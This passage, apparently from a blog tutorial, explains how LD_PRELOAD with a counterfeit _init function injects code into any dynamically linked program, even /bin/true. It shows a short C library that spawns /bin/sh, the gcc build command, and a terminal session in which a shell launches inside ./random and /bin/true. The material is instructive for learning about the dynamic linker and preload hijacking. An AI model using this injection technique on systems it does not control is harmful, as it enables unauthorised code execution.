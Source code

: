But `/bin/true` does not call _any_ libc function whatsoever. How can we inject code into that? Enter the `_init` function. The `_init` and `_fini` functions are run at the start and end of the loading process, respectively. It’s true for all programs, regardless of whether it calls any library functions, so we can use this to our advantage. As you can guess, it’s usually used for startup and cleanup tasks of the loading process. But we’re going to write a counterfeit `_init`, and that will execute our malicious code.

Note that nowadays, it’s usually not recommended to use `_init` and `_fini` for startup and cleanup tasks. The modern practice is writing constructors and destructors. You can read about it [here](https://tldp.org/HOWTO/Program-Library-HOWTO/miscellaneous.html). But as we’re not going to write startup tasks anyway, let’s go along with `_init`.

### The exploit

As we already know how the process works, this time, let’s keep it short and get to the point.

```c
#include <unistd.h>

void _init() {
    char *argv[] = {"/bin/sh", 0};
    execve(argv[0], &argv[0], NULL);
}
```

Above is the `_init` implementation I wrote; it spawns a shell using `execve`, pretty naughty, eh? Now let’s compile it and `LD_PRELOAD` the compiled library.

```console
sumit@HAL9000:~$ gcc -shared -fpic -nostartfiles shlib.c -o shlib.so
sumit@HAL9000:~$ LD_PRELOAD=./shlib.so ./random 
$ whoami
sumit
$ exit
sumit@HAL9000:~$ LD_PRELOAD=./shlib.so /bin/true
$ 
```

As you can see, the code injection worked for both `random` and `/bin/true`, it spawned a shell! The dynamic linker made sure that the `_init` function gets executed, at the very start of the loading process. Note that when your source code has the `_init` function, you need to pass the `nostartfiles` flag to gcc for it to compile.

## Conclusion

I might have gotten a bit impatient while writing the article, and I rushed a bit; so  there might be mistakes or some portions of it might not be so clear. If you face any problem while following the article, or if you find any mistake, or simply if you have questions to ask, please let me know in the comments and I’ll get back to as soon as possible. Hope this post helps you. Have a great day!

